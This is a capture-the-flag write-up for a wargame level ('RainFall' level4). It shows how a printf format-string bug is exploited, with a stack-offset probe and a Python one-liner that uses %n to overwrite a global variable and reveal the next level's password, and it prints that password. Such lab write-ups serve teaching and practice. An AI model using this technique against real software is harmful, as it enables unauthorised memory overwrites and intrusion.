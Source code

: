 ## Context & lead

This exercise is basically the same as for the previous level. We must set a global variable to a specific value so that the program displays the content of the /home/level5/.pass file. To do so, we can again exploit a badly formatted printf().

## Exploit

The global variable we want to reach is at 0x8049810 and must be equal to 0x1025544 (=16930116) (check the [source.c file](source.c) for more details).

Let's first find the offset of the buffer in the stack:
```
level4@RainFall:~$ ./level4 
AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x
AAAA b7ff26b0 bffff774 b7fd0ff4 0 0 bffff738 804848d bffff530 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
```
Ok so the offest of the buffer in the stack is 12.

Now about the lenght of our input, it is clear that we cannot give an input of 16930116 bytes since fgets expects only 512 bytes. What we can do is give a %d modifier with a specified field width of 16930112 (16930116 minus the four bytes of the address of the buffer on the stack). This way, our input fits into the buffer and will be interpreted by printf().

```
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
...
printing 16930112 spaces twice, so it's a bit long...
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

We can now reach to the next level with the command `su level5` and fill in the flag found as a password.